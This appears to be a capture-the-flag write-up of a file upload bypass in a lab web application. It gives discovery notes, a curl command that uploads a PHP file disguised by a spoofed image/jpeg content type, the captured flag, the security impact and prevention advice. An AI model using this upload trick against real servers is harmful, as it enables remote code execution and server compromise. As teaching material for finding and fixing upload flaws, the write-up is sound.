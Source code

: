 # File Upload Bypass Vulnerability

## Overview
The upload feature at `/index.php?page=upload` allows attackers to upload PHP files by tricking the application to accept non-image files.

---

## Discovery

1. Upload form only allows `.jpg` and `.jpeg` files.
2. JavaScript blocks empty uploads, but not actual file content.
3. The app checks file extensions but not the real content.

---

## Exploitation

### **cURL Content-Type Spoofing**

```bash
echo '<?php echo "hello"; ?>' > test.php

curl "http://<IP_ADDRESS>/index.php?page=upload" \
  -F "Upload=Upload" \
  -F "uploaded=@test.php;type=image/jpeg" \
  -F "MAX_FILE_SIZE=100000" | grep "flag"
```
- The PHP file is uploaded as if it’s a JPEG by spoofing the content-type.

---

## Flag

`46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`

---

## Security Impact

- **Remote Code Execution:** Upload and run PHP code on the server
- **Data Theft:** Access sensitive files and data
- **System Compromise:** Full server takeover possible

---

## Prevention

1. **Validate actual file content, not just extensions**
2. **Use libraries (like fileinfo) for file type checks**
3. **Re-encode images on the server**
4. **Store uploads in non-executable locations**
5. **Apply a strict Content Security Policy**

---
